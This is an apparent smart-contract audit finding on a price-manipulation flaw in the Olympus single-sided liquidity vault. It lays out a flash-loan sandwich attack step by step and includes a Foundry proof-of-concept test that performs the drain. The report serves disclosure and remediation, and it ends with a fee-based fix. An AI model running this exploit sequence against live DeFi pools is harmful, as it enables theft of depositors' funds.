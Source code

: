 Bahurum

high

# Liquidity Vault can be drained

## Summary
The SSLV can be drained. In short, an attacker can extract value from the SSLV free OHM liquidity by sandwiching its own withdrawals with appropriate swaps on the underlying balancer pool.

## Vulnerability Detail
The SSLV puts half of the liquidity of an user deposit as newly minted OHM tokens. An user can extract value from this free liquidity by pumping the spot price of OHM in the underlying before calling `withdraw()` and dumping the spot price afterwards. This way during withdrawal the SSLV receives more wstETH and less OHM than normal. The vault sees impermanent loss due to the swap, where the loss comes from the reduced amount of OHM received. However, the user does not share this loss since he never handles OHM and has a gain instead from the accrued amount of wstETH received.

The amount of spot price manipulation possible is reduced by the `THRESHOLD` in the `_isPoolSafe()` check, so capital losses from the one iteration of the manipulation attack will be constrained and be at less than 2% capital used. However, an attacker can leverage flash loans to get a large amount of capital and make net losses large. Exact profitability of the attack depends on the Balancer Pool fees and if the pool has enough TVL to make net gains larger than gas fees. 

A realistic scenario for the attack is as follow:
- `THRESHOLD` = 2% 
- Balancer pool fee = 0.3%
- initial wstETH in pool = 100
- initial OHM in pool = 17670
- initial OHM pool price = oracle OHM price = 176.39 OHM for 1 wstETH
- Attacker in the same tx:
   1. Flashloan 918.82 wstETH from AAVE
   2. Deposit 900 wsETH into SSLV
   3. Swap 10 wstETH for 1741.2 OHM on balancer pool
   4. Withdraw liquidity from SSLV: receive 909.00 wstETH
   5. Swap 1741.2 OHM for 9.13 wstETH on balancer pool
   6. Price in the balancer pool is now 209.1 OHM per 1 wstETH. Swap 8.146 wsETH for 1560.0 OHM to reset the pool price to the initial value
   7. swap the 1560.0 OHM on the open market (not balancer) for around 1560.0/176.39 - fees = 8.82 wstETH
   8. Attacker has 909.00 + 9.13 - 8.146 + 8.82 = 918,8 wstETH. Pay 0.09 % fee on flash loan = 918.134 * 0.0009 = 0.81 wstETH.
   9.  Net gain after flashloan fee: 8 wstETH. He managed to extract the part of liquidity added by the SSLV (9 wstETH value minus all fees)
   10. Since pool price is reset to the initial value, all the steps above can be repeated but with amount of tokens scaled respect to the new liquidity in the balancer pool. Pool can be drained by repeating many times

## PoC
The scenario above is tested in the following. `THRESHOLD` has been set to 2%.
The values are all divided by 100 to stick with the 1 wstETH deposit already in the `setUp()`. Also exact values will change slighthly depending on chainlink prices at test execution.
`LIMIT` is increased from 1000e9 to 10000e9.
`FixedPointMathLib` is used instead of `FullMath` for convenience in arithmetic operations.
Necessary interfaces for swaps have been added to `IBalancer.sol`

```solidity
function testDrainPool() public {

        bytes memory userData;
        uint256 wstEthAmount = 9 * 1e18;
        uint256 wstEthAmountSwap = 9 * liquidityVault.THRESHOLD() * 1e18 / 2;
        uint256 oraclePrice = liquidityVault._valueCollateral(1e18);

        FundManagement memory funds = FundManagement(
            {
                sender: alice,
                fromInternalBalance: false,
                recipient: payable(alice),
                toInternalBalance: false
            }
        );
        SingleSwap memory singleSwap = SingleSwap(
            {
                poolId: liquidityPool.getPoolId(),
                kind: SwapKind(0),
                assetIn: address(wsteth),
                assetOut: address(ohm),
                amount: wstEthAmountSwap,
                userData: userData
            }
        );

        uint256 initialAlicewstEthBalance = wsteth.balanceOf(alice);
        uint256 initialAliceOhmBalance = ohm.balanceOf(alice);

        vm.startPrank(alice);

        // 2. Deposit
        liquidityVault.deposit(wstEthAmount, 0);
        uint256 aliceLpPosition = liquidityVault.lpPositions(alice);
        console2.log("2. wsETH deposited into SSLV:" , wstEthAmount);

        // 3. Swap wstETH for OHM on balancer
        wsteth.approve(address(vault), wstEthAmount);
        uint256 ohmOut = vault.swap(singleSwap,
                                    funds,
                                    0,
                                    block.timestamp + 1);
        console2.log("3.Initial Pool price: ", oraclePrice);
        console2.log("3.SWAP - wstETH in :", wstEthAmount);
        console2.log("3.SWAP - OHM out :", ohmOut);

        // 4. withdraw
        uint256 wstETHfromWithdraw = liquidityVault.withdraw(aliceLpPosition, minTokenAmounts_, true);
        console2.log("4. wstETH obtained from Withdrawal:", wstETHfromWithdraw);
        
        // 5. Swap OHM for wstETH on balancer
        singleSwap.assetIn = address(ohm);
        singleSwap.assetOut = address(wsteth);
        singleSwap.amount = ohmOut;
        ohm.approve(address(vault), ohmOut);
        uint256 wstEthOut = vault.swap(singleSwap,
                            funds,
                            0,
                            block.timestamp + 1);
        console2.log("5. wsETH received from swap:", wstEthOut);
        console2.log("5. OHM given in swap:", ohmOut);
        
        // 6. Swap wstETH for OHM on balancer to get to initial pool price
        (, uint256[] memory balances_, ) = vault.getPoolTokens(
            IBasePool(liquidityPool).getPoolId()
        );
        uint256 price = (balances_[0] * 1e18) / balances_[1];
        uint256 priceRatio = price.divWadDown(oraclePrice);
        singleSwap.assetIn = address(wsteth);
        singleSwap.assetOut = address(ohm);
        singleSwap.amount = balances_[1].mulWadDown(priceRatio.sqrt()*1e9 - 1e18);
        uint256 ohmOutArbitrage = vault.swap(singleSwap,
                                    funds,
                                    0,
                                    block.timestamp + 1);

        (, balances_, ) = vault.getPoolTokens(
            IBasePool(liquidityPool).getPoolId()
        );
        console2.log("6. Manipulated price: ", price);
        price = (balances_[0] * 1e18) / balances_[1];
        console2.log("6. wsETH swapped: ", singleSwap.amount);
        console2.log("6. OHM received from swap:", ohmOutArbitrage);
        console2.log("6. Corrected price: ", price);

        // 7. swap the obtained OHM on the market for wstETH
        // here bob is an exchange on the market
        ohm.transfer(bob, ohmOutArbitrage); // send OHM to the exchange
        vm.stopPrank();
        vm.prank(bob);
        uint256 wstethReceived = ohmOutArbitrage.divWadDown(oraclePrice)*997/1000;  // 0.3% assume fee on swap
        wsteth.transfer(alice, wstethReceived);
        console2.log("7. OHM swapped: ", ohmOutArbitrage);
        console2.log("7. wstETh Received from swap: ", wstethReceived);
        
        console2.log("Initial OHM balance:", initialAliceOhmBalance);
        console2.log("Final OHM balance:", ohm.balanceOf(alice));
        int wsETHgain = int(wsteth.balanceOf(alice)) - int(initialAlicewstEthBalance);
        if (wsETHgain > 0) {
            console2.log("wstETH gain:", uint(wsETHgain));
        } else {
            console2.log("wstETH loss:", uint(-wsETHgain));
        }
    }
```

## Impact
The impact depends on `THRESHOLD`, balancer pool fees, network congestion and TVL in the balancer pool. With current values, the attacker can easily drain a large part of the wstETH in the SSLV.

## Code Snippet
https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L217

https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L280
## Tool used

Manual Review

## Recommendation
Some combinations of `THRESHOLD` and balancer pool fee make the attack always unprofitable.

If balancer pool fee = 0.3%, then the attack is unprofitable for `THRESHOLD` < 1% in the scenario above (slight loss due to fees).

Also, with `THRESHOLD` = 2%, an higher value appropriate for balancer pool fee should make this unprofitable.

However, to be sure that this cannot be exploited, just add a withdrawal fee on the SSLV pool of half the `THRESHOLD` value.

